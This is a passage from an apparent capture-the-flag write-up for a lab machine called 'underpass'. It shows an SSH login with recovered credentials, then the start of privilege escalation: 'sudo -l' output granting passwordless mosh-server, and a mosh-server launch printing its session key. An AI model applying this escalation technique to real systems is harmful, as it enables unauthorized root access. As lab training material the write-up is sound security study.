  * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Fri Jan  3 10:14:36 PM UTC 2025

  System load:  0.03              Processes:             240
  Usage of /:   93.3% of 3.75GB   Users logged in:       1
  Memory usage: 19%               IPv4 address for eth0: 10.10.11.48
  Swap usage:   0%

  => / is using 93.3% of 3.75GB
  => There is 1 zombie process.


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Fri Jan  3 21:29:47 2025 from 10.10.16.59
svcMosh@underpass:~$ 

```
the creds worked for ssh login

# Privilege Escalation

```
svcMosh@underpass:~$ sudo -l
Matching Defaults entries for svcMosh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server
```

```
svcMosh@underpass:~$ mosh-server


MOSH CONNECT 60001 AYlVxMxmYg5JOSkArABvtg

mosh-server (mosh 1.3.2) [build mosh 1.3.2]
Copyright 2012 Keith Winstein <mosh-devel@mit.edu>
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

[mosh-server detached, pid = 4328]
